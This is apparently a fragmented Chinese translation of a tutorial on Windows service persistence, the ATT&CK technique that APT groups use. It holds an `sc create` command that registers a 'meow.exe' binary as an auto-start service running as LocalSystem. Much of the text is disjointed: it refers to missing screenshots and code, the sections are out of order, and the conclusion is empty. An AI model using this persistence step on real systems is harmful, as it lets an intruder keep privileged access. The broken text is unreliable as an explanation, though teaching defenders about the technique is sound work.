{width="80%"}

如果你试图仅用 `meow.exe` 创建服务，它只会以错误终止。

这项技术并不新鲜，但值得特别注意，尤其是对于入门级的蓝队专家。

```powershell
sc create MeowService \
binpath= "Z:\2022-05-09-pers-4\meow.exe" \
start= auto
```

威胁行为者也可以修改现有的 Windows 服务，而不是创建新的。

在野外，这个技巧常被 APT 38、APT 32 和 APT 41 等组织使用。

MITTRE ATT&CK. Create or Modify System Process: Windows Service

### Windows 服务

它们在系统启动时自动启动。

这一点二十多年来没有改变过。

服务控制处理器是在你的服务主入口点中注册的。

你还可以处理其他请求，比如 `SERVICE_CONTROL_CONTINUE`。

以及 `SERVICE_CONTROL_INTERROGATE`、`SERVICE_CONTROL_PAUSE` 等等。

请记住，所有命令都以管理员身份运行：

如果查看它的属性：

LocalSystem 账户是服务控制管理器使用的预定义本地账户。

它在本地计算机上拥有广泛的权限，并在网络上充当计算机的角色。

该账户在所有语言环境中的名称都是 `.\LocalSystem`。

也可以使用名称 `LocalSystem` 或 `ComputerName\LocalSystem`。

然后，以非管理员 User 身份运行 Process Hacker：

我们看不到用户名。

所以一切都完美工作了 :)

实验完成后进行清理。停止服务：

如果我们删除它：

我们可以看到 Process Hacker 关于此的通知。

正如我之前所写，对服务的最低要求是以下几个特定函数：主入口点、服务入口点和服务控制处理器。

### 结论
